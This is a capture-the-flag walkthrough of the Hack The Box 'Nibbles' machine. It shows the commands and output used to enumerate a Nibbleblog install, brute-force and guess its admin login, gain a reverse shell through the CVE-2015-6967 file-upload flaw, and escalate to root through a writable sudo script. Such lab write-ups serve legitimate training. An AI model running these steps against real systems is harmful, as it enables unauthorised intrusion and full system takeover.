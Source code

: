 +++
draft = false
date = 2020-06-19T16:04:02+01:00
title = "Nibbles"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 5

+++


# Machine info

- OS : Linux
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.75


# Mind Map
![Nibbles_MindMap](/images/htb/nibbles_mindmap.png)


# Reconnaisance

I start with a scan to check for open ports:

{{< highlight html >}}
sudo nmap -sT -sV -n 10.10.10.75 -oA nmap/sT_SV_scan
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-20 10:32 BST
Nmap scan report for 10.10.10.75
Host is up (0.097s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
{{< /highlight >}}
**Note**: A full port scan does not reveal any new open port.

I have only port 22 and port 80 open, so let's start with the enumeration phase.

# Enumeration

I proceed visiting the webpage at `10.10.10.75:80`. It shows nothing apart from a "Hello World" message, but visiting the source code I can see a reference to a resource:

{{< highlight bash >}}
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
{{< /highlight >}}

Visiting `10.10.10.75:80/nibbleblog/` I am presented with a **Nibbleblog** blog homepage:

![Nibbles_Blog](/images/htb/nibbles_blog.png)

At this point - as the links in the page do not show anything useful - I want to check if there are open directories available on the web server. I mostly like `dirsearch` for this purpose:

{{< highlight html >}}
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.75:80/nibbleblog/ -e php,bak,old,sh
{{< /highlight >}}
Where:
- `-e` is for telling the command what extensions to search for

I'm able to found something interesting here: a `README` page and a a link to an `Admin login` page.

{{< highlight html >}}
[11:19:28] 200 -    1KB - /nibbleblog/admin.php
[11:19:29] 200 -    2KB - /nibbleblog/admin/
[11:19:29] 403 -  312B  - /nibbleblog/admin/.htaccess
[11:19:29] 200 -    2KB - /nibbleblog/admin/?/login
[11:19:30] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://10.10.10.75/nibbleblog/admin/js/tinymce/
[11:19:30] 200 -    2KB - /nibbleblog/admin/js/tinymce/
[11:19:52] 301 -  323B  - /nibbleblog/content  ->  http://10.10.10.75/nibbleblog/content/                         
[11:20:04] 200 -    3KB - /nibbleblog/index.php                                                                
[11:20:04] 200 -    3KB - /nibbleblog/index.php/login/
[11:20:05] 200 -   78B  - /nibbleblog/install.php
[11:20:21] 200 -    5KB - /nibbleblog/README
{{< /highlight >}}

The `README` file informs about the **Nibbleblog** version. It can be useful for searching for any known vulnerability.

{{< highlight html >}}
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
{{< /highlight >}}

Indeed, version  4.0.3 seems vulnerable to `CVE-2015-6967`:

> Unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.

# Exploitation

I first need to figure out how to enter the administrator panel for uploading a file.
Here is the Admin login page:

![Nibbles_Login](/images/htb/nibbles_login.png)

Let's try to brute force the login with **Hydra**:

{{< highlight html >}}
hydra -V -f -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^&Login=Login:Incorrect username or password."
{{< /highlight >}}

Where:

- `-V` is for verbosity
- `-f` exits when a successful login is found
- `-t` number of connects in parallel per target
- `username` and `password` are the fields to bruteforce
- `Incorrect username or password` is the message printed on screen when the login fails

I get some false positives and the attempt to bruteforce the login blocks my ip :(
I have to wait a few minutes for being able to visit the login page again! The solution here appears to be really simple, I just have to try some basic user/pass combinations like `admin/admin`, `admin/password`, `admin/nibbles`. The last one works!

Once I'm in, I have to upload a file of my choice under `Plugins -> My image`. I download a `php-reverse-shell` from Pentestmonkey and edit it with the IP/PORT couple of my machine before uploading the file.

Then I have to set up a netcat listener to receive the connection back and visit the following link (which hosts the reverse shell):

{{< highlight html >}}
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
{{< /highlight >}}

I receive a connection back and I'm logged in as the `nibbler` user!

{{< highlight html >}}
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.75] 59652
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:37:54 up  6:14,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
{{< /highlight >}}


# Privilege escalation

To have a Python interactive shell:

{{< highlight html >}}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler$
{{< /highlight >}}

For privilege escalation I like using this great tool called **Linux Smart Enumeration**. You can find it on GitHub: https://github.com/diego-treitos/linux-smart-enumeration

I download the script on the target machine and launch it with the following command:

{{< highlight html >}}
./lse.sh -l 1 -i
{{< /highlight >}}
Where:
- `-l` specifies the 'verbosity' of the command
- `-i` is for telling the command to not ask the current user password

Then I check the scritp results for interesting informations about the machine:

{{< highlight html >}}
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
{{< /highlight >}}

I'm able to run the `/home/nibbler/personal/stuff/monitor.sh` script with sudo permissions without providing a password!
The content of the `personal` directory is zipped. I have two options here:

1. unzip the file and edit `monitor.sh`
2. as I have write permissions under `/home/nibbler`, I can create my own `monitor.sh` script under the specified path

I choose the second one! All I have to do is to create a script named `monitor.sh` with the following content:

{{< highlight html >}}
#!bin/sh

bash
{{< /highlight >}}

And make it executable:

{{< highlight bash >}}
chmod +x monitor.sh
{{< /highlight >}}

Launching the script with sudo gives me root permissions!

{{< highlight html >}}
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
/home/nibbler/personal/stuff/monitor.sh: 1: /home/nibbler/personal/stuff/monitor.sh: !#bin/sh: not found
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff#
{{< /highlight>}}

**Note**: as always, flags are under `/home` and `/root`, but I suppose we don't really care about that!

## Lessons learned and remediations

- Always try first simple user/passwords combinations before attempting to brute force a login, so to avoid ending up in a blacklist.
- The admin panel credentials were too easy to guess, so never use weak authentication credentials.
- The blog is using a known vulnerable application, so always patch your software where possible.
- The system admin should have not given a regular user the ability to run a script as root!
